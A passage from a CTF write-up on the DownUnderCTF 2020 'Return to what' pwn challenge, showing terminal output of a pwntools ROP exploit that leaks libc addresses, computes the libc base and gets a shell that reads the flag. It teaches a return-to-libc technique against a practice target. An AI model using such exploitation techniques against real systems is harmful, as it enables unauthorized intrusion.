 The exploit code speaks for itself. I used `pwntools`'s ROP module to simplify the ROP exploit development significantly (due to the CTF being a time-restricted event) but I encourage whoever's learning about this technique to also do it "manually" by constructing the payloads yourselves. I did that in several other occasions and can confirm that it's a good way to better understand what goes on behind the scenes.

```
~/CTF/DownUnderCTF-2020/Pwn/Return to what py(ctf) !130
miguel@miguel-xps$ python exploit.py REMOTE
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
b'\xc0\xd9yF\xb6\x7f'
'puts' at 0x7fb64679d9c0
b'\xb0\xeasF\xb6\x7f'
'libc_start_main' at 0x7fb64673eab0
Libc at 0x7fb64671d000
b'Where would you like to return to?\n'
[*] Loading gadgets for '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/libc6_2.27-3ubuntu1_amd64.so'
b''
[*] Switching to interactive mode
$ ls
flag.txt
return-to-what
$ whoami
whoami: cannot find name for user ID 1000: No such file or directory
$ id
uid=1000 gid=999 groups=999
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```

## Addition (misc) - 200 points {#Addition}
